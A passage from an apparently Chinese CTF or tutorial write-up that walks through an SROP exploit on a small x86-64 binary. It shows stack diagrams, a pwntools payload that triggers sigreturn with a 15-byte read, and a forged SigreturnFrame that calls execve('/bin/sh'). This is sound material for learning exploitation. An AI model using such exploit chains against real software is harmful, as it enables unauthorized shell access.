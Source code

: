 想说，此时栈顶还有最后一个0x4000b0，刚刚write函数执行完毕，此时即将执行ret指令，再次执行一遍read函数，接收新的输入，覆盖到栈顶，这个内容是什么呢？就是上面这段代码“p64(start_addr) + ‘a’ * 8 + str(sigframe)”，先是start_addr，然后8个“a”占位，然后是一个伪sigFrame。这段payload打进来后，栈顶就又是0x4000b0了，这次read结束，执行后面ret指令前的样子如下：

[![](https://p0.ssl.qhimg.com/t014d67d26f6d6d0a00.jpg)](https://p0.ssl.qhimg.com/t014d67d26f6d6d0a00.jpg)

可见0x4000b0、“aaaaaaaa”还有伪sigFrame都进来了。此时执行ret指令，会再次回到程序第一行汇编，再再执行read：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01fe54fc82116bdc1a.jpg)

此时又要开始read了，我们传点什么进去呢？请看下面代码

```
## set rax=15 and call sigreturn

sigreturn = p64(syscall_ret) + 'b' * 7

sh.send(sigreturn)

raw_input()
```

传了p64(syscall_ret) + ‘b’ * 7进去，先分分析，p64(syscall_ret) 占领了当前栈顶的“aaaaaaaa”位置，7个’b’占领了栈顶第二个8字节的最低7个字节，一共send了15(0xf)个字节，根据上面的图也知道栈顶第二个8字节最高位的一个字节为\x00，所以此时栈顶结构如下：

[![](https://p2.ssl.qhimg.com/t014831a6d41ebd22a9.jpg)](https://p2.ssl.qhimg.com/t014831a6d41ebd22a9.jpg)

此时再执行当前的ret指令，便会执行syscall_ret这个“syscall;ret”gadget，而恰恰此时rsp会指向我们上次read时传入的伪sigFrame头部，虽然其前7个字节被覆盖成了’bbbbbbb’，不过没有丝毫影响。另外，值得注意的是，因为read函数读了0xf个字节进来，所以此时rax如图为0xf，这个刚好是sigreturn的系统调用号，所以此时执行syscall_ret gadget会触发sigreturn对rsp当前所指的伪sigFrame的恢复流程。如下图：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0165454499ca31fc3f.jpg)

回顾上上个代码，可以知道我们伪造的sigFrame是用来再次恢复成read函数的，区别是rsi指向了泄露的栈地址，rip是’syscall;ret’ gadget，从而再下次传入伪sigFrame就会写到泄露的栈地址位置，这此执行得到的这个栈地址值为0x7ffc1b477ef7。

所以，触发完这个sigreturn syscall之后，会直接恢复成read系统调用，如下图：

[![](https://p0.ssl.qhimg.com/t018b380ab30325b545.jpg)](https://p0.ssl.qhimg.com/t018b380ab30325b545.jpg)

这个read我们传点什么进来呢？请看下面代码

```
## call execv("/bin/sh",0,0)

sigframe = SigreturnFrame()

sigframe.rax = constants.SYS_execve

sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr

sigframe.rsi = 0x0

sigframe.rdx = 0x0

sigframe.rsp = stack_addr

sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)

print len(frame_payload)

```